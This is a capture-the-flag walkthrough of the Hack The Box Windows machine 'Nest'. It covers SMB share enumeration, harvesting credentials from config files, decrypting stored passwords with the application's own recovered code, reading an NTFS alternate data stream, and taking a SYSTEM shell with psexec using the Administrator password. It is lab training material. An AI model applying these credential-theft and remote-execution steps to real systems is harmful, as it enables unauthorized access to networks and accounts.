



Nest is a Windows machine rated Easy on HTB.

## Port Scan

`nmap -sC -sV -p- 10.10.10.178`

```
PORT     STATE SERVICE       REASON          VERSION
445/tcp  open  microsoft-ds? syn-ack ttl 127
4386/tcp open  unknown       syn-ack ttl 127
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     Reporting Service V1.2
|     Unrecognised command
|   Help:
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```

There are only two open ports. Let's start with the more familiar SMB port.

## SMB Enumeration

Let's start by enumerating the shares with smbmap.

The command below lists shares using a guest account. This `-R` flag lists the shares and its contents recursively.

```
root@kali:~/htb# smbmap -H 10.10.10.178 -u guest -R
[+] IP: 10.10.10.178:445	Name: 10.10.10.178                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	Data                                              	READ ONLY
	.\Data\*
	dr--r--r--                0 Thu Aug  8 05:53:46 2019	.
	dr--r--r--                0 Thu Aug  8 05:53:46 2019	..
	dr--r--r--                0 Thu Aug  8 05:58:07 2019	IT
	dr--r--r--                0 Tue Aug  6 04:53:41 2019	Production
	dr--r--r--                0 Tue Aug  6 04:53:50 2019	Reports
	dr--r--r--                0 Thu Aug  8 02:07:51 2019	Shared
	.\Data\Shared\*
	dr--r--r--                0 Thu Aug  8 02:07:51 2019	.
	dr--r--r--                0 Thu Aug  8 02:07:51 2019	..
	dr--r--r--                0 Thu Aug  8 02:07:33 2019	Maintenance
	dr--r--r--                0 Thu Aug  8 02:08:07 2019	Templates
	.\Data\Shared\Maintenance\*
	dr--r--r--                0 Thu Aug  8 02:07:33 2019	.
	dr--r--r--                0 Thu Aug  8 02:07:33 2019	..
	fr--r--r--               48 Thu Aug  8 02:07:32 2019	Maintenance Alerts.txt
	.\Data\Shared\Templates\*
	dr--r--r--                0 Thu Aug  8 02:08:07 2019	.
	dr--r--r--                0 Thu Aug  8 02:08:07 2019	..
	dr--r--r--                0 Thu Aug  8 02:08:10 2019	HR
	dr--r--r--                0 Thu Aug  8 02:08:07 2019	Marketing
	.\Data\Shared\Templates\HR\*
	dr--r--r--                0 Thu Aug  8 02:08:10 2019	.
	dr--r--r--                0 Thu Aug  8 02:08:10 2019	..
	fr--r--r--              425 Thu Aug  8 05:55:36 2019	Welcome Email.txt
	IPC$                                              	NO ACCESS	Remote IPC
	Secure$                                           	NO ACCESS
	Users                                             	READ ONLY
	.\Users\*
	dr--r--r--                0 Sun Jan 26 06:04:21 2020	.
	dr--r--r--                0 Sun Jan 26 06:04:21 2020	..
	dr--r--r--                0 Fri Aug  9 22:08:23 2019	Administrator
	dr--r--r--                0 Sun Jan 26 14:21:44 2020	C.Smith
	dr--r--r--                0 Fri Aug  9 00:03:29 2019	L.Frost
	dr--r--r--                0 Fri Aug  9 00:02:56 2019	R.Thompson
	dr--r--r--                0 Thu Aug  8 05:56:02 2019	TempUser
```

The two text files are worth checking out.

In **Welcome Email.txt**, we find credentials for TempUser.

```
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR
```
### Enumerating With TempUser

Again, we can enumerate the shares, but this time, with TempUser's permissions.

`smbmap -u 'TempUser' -p 'welcome2019' -H 10.10.10.178 -R`

After looking through the results, it seems like there's more to look through this time, especially in the Data share.

Let's mount the share, so that we can grep through its contents. (CIFS is a dialect of SMB so that's the file system type used for mounting SMB.)

```
root@kali:/mnt# mount -t cifs -o username=TempUser //10.10.10.178/Data /mnt/Data
Password for TempUser@//10.10.10.178/Data:  ***********
```

After mounting the drive, we can grep for credentials.

```
root@kali:/mnt/Data# grep -Eir 'password|passwd'
IT/Configs/RU Scanner/RU_config.xml:  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
Shared/Templates/HR/Welcome Email.txt:Password: welcome2019
```

There's a credential in **RU_cofig.xml**. Let's look at the file.

```
root@kali:/mnt/Data/IT/Configs# cat 'RU Scanner'/RU_config.xml
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

It is a XML config file for something called RU Scanner. The password is for a user **c.smith**.

We can find out more about c.smith with some simple grepping.

```
root@kali:/mnt/Data# grep -ir 'c.smith'
IT/Configs/NotepadPlusPlus/config.xml:        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
IT/Configs/RU Scanner/RU_config.xml:  <Username>c.smith</Username>
```

The config.xml for Notepad++ shows us a path to his todo list.

Let's open the file to take a closer look. 

```
root@kali:/mnt/Data/IT/Configs# cat NotepadPlusPlus/config.xml
<SNIP>
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
    <File filename="C:\windows\System32\drivers\etc\hosts" />
    <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
    <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
</History>
</SNIP>
```
The file history offers useful information. In particular, it offers us visibility into the `Secure$` share. We now know that there is a `\IT\Carl` path within it.

### Accessing Folders Without Listing Permissions

We did not know of this path earlier because we couldn't list the contents of the IT folder. Now that we are aware, let's try to access it.

After mounting it, we list its contents recursively.

`ls -alR *`

There are a number of files to look through, but let's see if we can find anything related to the password we found earlier.

### Reading Code

To do so, we grep for `password`.

```
root@kali:/mnt/Secure/Carl# grep -ir password
VB Projects/WIP/RU/RUScanner/ConfigFile.vb:    Public Property Password As String
VB Projects/WIP/RU/RUScanner/Module1.vb:        Dim test As New SsoIntegration With {.Username = Config.Username, .Password = Utils.DecryptString(Config.Password)}
<SNIP>
```

Module1.vb tells us that it is using Utils.DecryptString to decrypt the password.

Utils.vb is in the same folder. Upon inspection, we find the decryption function.

```
<SNIP>
Public Shared Function DecryptString(EncryptedString As String) As String
        If String.IsNullOrEmpty(EncryptedString) Then
            Return String.Empty
        Else
            Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function
<SNIP>
```

Now we have:

* An encrypted password (in RU_config.xml)
* VB source code with the decryption function (in Utils.vb)

The next step is to recover the password.

## Decrypting The Password

To recover the encrypted password, let's run the decryption function we found in the Secure$ share.

[Visual Studio](https://visualstudio.microsoft.com/) is the easiest way to work with .NET code.

Within a [Console app project](https://docs.microsoft.com/en-us/visualstudio/get-started/visual-basic/tutorial-console?view=vs-2019) in Visual Studio, create two files:

* Utils.vb - copy and paste the exact code we found the Secure$ share
* Program.vb

In Program.vb, we use a few lines of code to import the Decrypt function from Utils.vb and recover the password.

```
Imports System
Imports Utils

Module Program
    Sub Main(args As String())
        Dim Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")
        Console.WriteLine(Password)
    End Sub
End Module
```
Click the play button to run the code and the Debug Console will pop up.



Recovered credentials for **c.smith**.

* Password: xRxRxPANCAK3SxRxRx

## Uncovering Alternate Data Stream

With this set of credentials, the first place to check is c.smith's folder in the Users share.

```
root@kali:/mnt# mount -t cifs -o username=c.smith //10.10.10.178/Users /mnt/Users
Password for c.smith@//10.10.10.178/Users:  ******************

root@kali:/mnt/Users# cd C.Smith
root@kali:/mnt/Users/C.Smith# ls
'HQK Reporting'   user.txt
root@kali:/mnt/Users/C.Smith# cd 'HQK Reporting'/
root@kali:/mnt/Users/C.Smith/HQK Reporting# ls
'AD Integration Module'  'Debug Mode Password.txt'   HQK_Config_Backup.xml
```

We got **user.txt.**.

We also find `Debug Mode Password.txt`, which however appears to be empty.

NTFS supports [forks](https://en.wikipedia.org/wiki/Fork_(file_system)) in the form of Alternate Data Steam (ADS). These streams offer ways to store data that do not show up in a superficial inspection.

Using smbclient, we can check if there are alternate streams of data.

```
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Fri Aug  9 06:06:12 AM 2019 +07
access_time:    Fri Aug  9 06:06:12 AM 2019 +07
write_time:     Fri Aug  9 06:08:17 AM 2019 +07
change_time:    Fri Aug  9 06:08:17 AM 2019 +07
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
```

The main data steam is empty but we find 15 bytes of data in a second data stream. 

By default, when we download a file using smbclient, it gets only the main data stream. Hence, to get the alternate data stream, we need to specify the stream after the filename using `get`.

```
smb: \C.Smith\HQK Reporting\> get DEBUGM~1.TXT:Password:$DATA debug.txt
getting file \C.Smith\HQK Reporting\DEBUGM~1.TXT:Password:$DATA of size 15 as debug.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Now, when we look into the file, it contains a password we can use on the HQK service.

* HQK DEBUG Password: WBQ201953D8w  

## HQK Enumeration

Our port scan grabbed the HQK banner which includes a list of available commands. We can use them to perform recon.

First, let's connect to the HQK service with telnet.

`telnet 10.10.10.178 4386`

```
HQK Reporting Service V1.2

>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>
```

Using our debug password, we locked a few additional commands. The `SHOWQUERY` command is helpful as it allows us to look inside files.

With it, we can show the contents of this LDAP configuration file we find.

```
QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: ldap
>showquery 2   

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

Looks like we got another password, this time for the Administrator account.

## Recovering Another Encrypted Password

The password in Ldap.conf looks like the encrypted password we found earlier in RU_config.xml.

However, trying to decrypt it in the same way returned an error.

```
System.Security.Cryptography.CryptographicException
  HResult=0x80131501
  Message=Padding is invalid and cannot be removed.
  Source=System.Security.Cryptography.Algorithms
```

### Locating Source Of Encryption

It probably means that we are not decrypting it the same way as it was encrypted.

This encrypted password comes from a file for LDAP configuration, implying that the key to decrypting this password is in a program that works with LDAP. The obvious candidate here is the **HqkLdap.exe** software found in the same folder.

Although we cannot download files using the HQK service, recall that we came across this file in our earlier recon of c.smith's folder. So let's return to the SMB share and download the the binary.

```
smbclient \\\\10.10.10.178\\Users -U c.smith
Enter WORKGROUP\c.smith's password: 
<SNIP>
smb: \c.smith\HQK Reporting\AD Integration Module\> ls
  .                                   D        0  Fri Aug  9 19:18:42 2019
  ..                                  D        0  Fri Aug  9 19:18:42 2019
  HqkLdap.exe                         A    17408  Thu Aug  8 06:41:16 2019

		10485247 blocks of size 4096. 6545527 blocks available
smb: \c.smith\HQK Reporting\AD Integration Module\> get HqkLdap.exe
```

### Decompiling .NET executable

To uncover the encryption algorithm, we need to decompile the exe.

```
root@kali:~/htb/nest# file HqkLdap.exe
HqkLdap.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

However, as this is a .NET assembly, ollydbg does not work. [JetBrains dotPeek](https://www.jetbrains.com/decompiler/) works well here if you have access to a Windows host. 



Specifically, we are interested in the decryption function.

`CR.RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);`

### Password Decryption

Now, let's re-use the VB code used for the first decryption. We just need to replace the parameters according to the function we reversed from HqkLdap.exe.

In **Utils.vb**, replace:

`Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)`

with:

`Return Decrypt(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256)`

In **Program.vb**, replace:

`Dim Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")`

with:

`Dim Password = Utils.DecryptString("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=")`

Run the program again and you'll find the decrypted password.

* XtH4nkS4Pl4y1nGX

## Getting A Root Shell

With the decrypted password, let's get a system shell with Impacket's psexec.

```
root@kali:~/htb/nest# ./psexec.py Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.178.....
<SNIP>
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

We can then get the root flag easily.

## Ending Thoughts

This box is fun. In particular, it's a great box to practise SMB enumeration.
